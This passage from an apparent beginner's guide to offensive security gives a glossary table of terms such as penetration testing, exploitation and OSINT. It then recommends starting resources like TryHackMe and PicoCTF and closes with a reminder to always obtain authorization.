| **Penetration Testing** | Authorized simulated attack on a system | Always get written permission |
| **Red Teaming** | Full-scope adversary simulation | Tests people, process & tech |
| **Bug Bounty** | Companies pay for reported vulnerabilities | Legal and rewarding |
| **Recon** | Gather info before attacking | Know your target |
| **Exploitation** | Using a vulnerability to gain access | Proof of impact |
| **Post-Exploitation** | What an attacker does after getting in | Escalate, persist, exfiltrate |
| **OSINT** | Intelligence from public sources | No hacking required |
| **Social Engineering** | Manipulating humans | Often the easiest attack |
| **OWASP Top 10** | Most critical web vulnerabilities | Study this thoroughly |
| **OSCP** | Gold standard practical cert | The hacker's degree |
| **CTF** | Capture the Flag competitions | Best way to practice |

!!! tip "Where to Start"
    1. 🎯 Create a free account on **TryHackMe.com**
    2. 📚 Complete the **"Pre-Security"** and **"Jr Penetration Tester"** paths
    3. 🛠️ Set up **Kali Linux** in VirtualBox
    4. 🏆 Attempt your first **CTF challenge** on PicoCTF
    5. 📄 Aim for **CompTIA Security+** as your first certification

!!! warning "Remember"
    Offensive security is a **superpower** — use it responsibly. The difference between a penetration tester and a criminal is a **signed piece of paper** (authorization). Always stay on the right side of that line.